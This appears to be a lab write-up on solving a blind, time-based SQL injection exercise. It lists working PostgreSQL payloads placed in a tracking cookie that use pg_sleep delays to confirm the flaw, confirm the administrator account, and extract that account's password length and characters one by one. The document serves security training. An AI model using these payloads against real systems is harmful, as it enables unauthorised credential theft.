 # Blind SQL injection with time delays and information retrieval
# Objective
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.\
\
The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.\
\
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.\
\
To solve the lab, log in as the administrator user.

# Solution
## Checking that tracking id is vulnerable to time-based SQL injection.
The query below causes a delay.
```
TrackingId=bJZEw0q0dg6wYBsQ' || (select pg_sleep(10))--
```
|![](Images/image-32.png)|
|:--:| 
| *Test payload causing delay* |

The query below causes a delay also.
```
TrackingId=bJZEw0q0dg6wYBsQ' || (select case when (1=1) then pg_sleep(10) else '' end)--
```
|![](Images/image-33.png)|
|:--:| 
| *Test payload causing delay* |

### Syntax
```
SELECT CASE WHEN (1=1) THEN <sth> ELSE <sth> END {FROM <table>}
```

## Checking that the user administrator exists
```
TrackingId=bJZEw0q0dg6wYBsQ' || (select case when (username='administrator') then pg_sleep(10) else '' END from users)--
```
The query above causes a delay. It means that administrator entry exists in database.

## Retrieving adminstrator's password length
```
TrackingId=bJZEw0q0dg6wYBsQ' || (select case when (username='administrator' and length(password)=20) then pg_sleep(10) else '' END from users)--
```
The query above causes a delay. It means that adminsitrator's password has (at least) 20 characters.
|![](Images/image-34.png)|
|:--:| 
| *Payload causes a delay -> Password is (at least 20) characters long* |

## Retrieving administrator's password
```
TrackingId=bJZEw0q0dg6wYBsQ' || (select case when (username='administrator' and SUBSTRING(password, 1, 1)='a') then pg_sleep(10) else '' END from users)--
```

|![](Images/image-35.png)|
|:--:| 
| *Payload causes a delay -> Given character is "a"* |
|![](Images/image-36.png)|
| *Password enumeration results for 9th character* |


### Cluster bomb mode
|![](Images/image-37.png)|
|:--:| 
| *Payload positions* |